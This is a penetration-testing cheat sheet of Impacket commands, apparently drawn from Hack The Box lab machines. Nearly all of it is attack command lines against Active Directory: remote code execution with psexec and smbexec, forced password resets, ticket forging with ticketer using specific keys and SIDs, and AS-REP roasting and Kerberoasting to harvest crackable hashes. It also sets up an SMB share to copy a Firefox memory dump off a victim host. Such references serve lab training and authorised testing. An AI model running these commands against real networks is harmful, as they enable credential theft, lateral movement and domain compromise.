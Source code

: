 https://github.com/fortra/impacket/releases

### MSSQLClient
```bash
mssqlclient.py Administrator:Lab123@192.168.50.18 -windows-auth #To login
```
### Impacket - PSExec
```bash
psexec.py 'user:pass@ipaddr'

psexec.py -dc-ip infiltrator.htb -target-ip infiltrator.htb -no-pass -k infiltrator.htb/E.RODRIGUEZ@infiltrator.htb
```

### Impacket - Changepasswd
```
changepasswd.py 'scepter.htb'/'a.carter'@10.129.234.143 -reset -altuser 'd.baker' -althash :'hash'
```
### Impacket - SMBServer
```bash
smbserver.py -smb2support -username guest -password guest share ./

# Windows Connection
net use x: \\10.10.14.165\share /user:guest guest

# Copy Files
cmd /c "copy firefox.dmp X:\"
```
### Impacket - SMBExec
```bash
impacket-smbexec -k -no-pass -dc-ip 10.10.11.24 CORP.GHOST.HTB/administrator@dc01.ghost.htb
```
### Impacket - TicketConvertor
```bash
ticketConverter.py /PATH/ticket.kirbi ticket.ccache

export KRB5CCNAME=/PATH/ticket.ccache
```
### Impacket - Ticketer
```bash
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb administrator
```
### Impacket - Samrdump.py
```bash
samrdump.py 10.129.14.128
```

### Impacket - GetTGT.py
```
getTGT.py -dc-ip dc01.infiltrator.htb infiltrator.htb/D.anderson
```
### Impacket - GetNPUsers.py
[GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can be used to retrieve domain users who have "Do not require Kerberos preauthentication" set and ask for their TGTs without knowing their passwords. It is then possible to attempt to crack the session key sent along the ticket to retrieve the user password. This attack is known as [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast).
```
# users list dynamically queried with an RPC null session
GetNPUsers.py -dc-ip dc01.infiltrator.htb -usersfile users.txt infiltrator.htb/

GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

### Impacket - GetUserSPNs
[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can be used to obtain a password hash for user accounts that have an SPN (service principal name). If an SPN is set on a user account it is possible to request a Service Ticket for this account and attempt to crack it in order to retrieve the user password. This attack is named [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast). This script can also be used for [Kerberoast without preauthentication](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication).
```
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

# Kerberoast without preauthentication
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```
